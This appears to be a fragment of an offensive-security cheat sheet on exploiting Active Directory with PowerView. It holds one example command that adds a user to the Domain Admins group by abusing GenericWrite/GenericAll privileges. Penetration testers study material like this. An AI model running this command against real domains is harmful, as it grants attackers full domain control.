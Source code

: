 # Exploitation with Powerview

### Examples:

1) Add a user to the Domain Admins Group (Generic Write/Generic All privileges on the DA Group)

        Add-DomainGroupMember -Identity 'Domain Admins' -Members 'USER' -Credential $Cred
